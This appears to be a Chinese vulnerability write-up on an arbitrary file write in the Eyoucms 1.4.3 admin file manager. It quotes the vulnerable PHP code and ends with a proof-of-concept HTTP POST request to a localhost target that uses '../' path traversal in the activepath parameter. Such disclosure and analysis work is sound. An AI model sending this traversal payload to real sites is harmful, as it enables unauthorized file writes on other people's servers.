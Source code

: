 ```yaml
---
title: Eyoucms 1.4.3 任意文件写入
id: zhfly2927
---
```


# Eyoucms 1.4.3 任意文件写入

## 一、漏洞简介

可写入html,css,js,txt文件，总体来说比较鸡肋。

## 二、漏洞影响

Eyoucms 1.4.3

## 三、复现过程

### 漏洞分析

漏洞点只对`filename`进行过滤，而忘了`activepath`也可以`../`进行跳转 `application/admin/controller/Filemanager.php`

```
 if (IS_POST) {
         $post = input('post.', '', null);
         $content = input('post.content', '', null);
         $filename = !empty($post['filename']) ? trim($post['filename']) : '';
         $content = !empty($content) ? $content : '';
         $activepath = !empty($post['activepath']) ? trim($post['activepath']) : '';

```
 ... ...

     $r = $this-&gt;filemanagerLogic-&gt;editFile($filename, $activepath, $content);
     if ($r === true) {
         $this-&gt;success('操作成功！', url('Filemanager/index', array('activepath'=&gt;$this-&gt;filemanagerLogic-&gt;replace_path($activepath, ':', false))));
         exit;
     } else {
         ... ... 
``` 
```

跟进`editFile`函数

```
application/admin/logic/FilemanagerLogic.php
 public function editFile($filename, $activepath = '', $content = '')
 {
     $fileinfo = pathinfo($filename);// pathinfo获取后缀
     $ext = strtolower($fileinfo['extension']);

```
 ......

 /*允许编辑的文件类型*/
 if (!in_array($ext, $this-&gt;editExt)) { //&lt;&lt;&lt;&lt;&lt;基于白名单，暂时没有想到绕过的方法&gt;&gt;&gt;&gt;&gt;
     return '只允许操作文件类型如下：'.implode('|', $this-&gt;editExt);
 }
 /*--end*/

 $filename = str_replace("..", "", $filename);// 仅对filename进行过滤
 $file = $this-&gt;baseDir."$activepath/$filename"; // 此处直接拼接产生漏洞
 if (!is_writable(dirname($file))) {
     return "请把模板文件目录设置为可写入权限！";
 }
 if ('css' != $ext) {
     $content = htmlspecialchars_decode($content, ENT_QUOTES);
     $content = preg_replace("/(@)?eval(\s*)\(/i", 'intval(', $content);//
     // $content = preg_replace("/\?\bphp\b/i", "？ｍｕｍａ", $content);
 }
 $fp = fopen($file, "w");
 fputs($fp, $content);
 fclose($fp);
 return true; 
``` `}` 
```

### 漏洞复现

### poc

```
 POST /eyoucms/login.php?m=admin&c=Filemanager&a=newfile&lang=cn HTTP/1.1
 Host: 127.0.0.1
 User-Agent: Mozilla/5.0 (X11; Linux i686; rv:67.0) Gecko/20100101 Firefox/67.0
 Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
 Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
 Accept-Encoding: gzip, deflate
 Content-Type: application/x-www-form-urlencoded
 Content-Length: 94
 Origin: http://127.0.0.1
 Connection: close
 Referer: http://127.0.0.1/eyoucms/login.php?m=admin&c=Filemanager&a=newfile&activepath=%3Atemplate%3Aplugins%3Atest&lang=cn
 Cookie: home_lang=cn; admin_lang=cn; PHPSESSID=h6k34lgf1svcatllongehqqdt0; workspaceParam=index%7CFilemanager; XDEBUG_SESSION=18705
 Upgrade-Insecure-Requests: 1 `activepath=%2Ftemplate%2Fplugins%2Ftest/…/…/…/uploads/tmp&filename=newfile.htm&content=test` 
```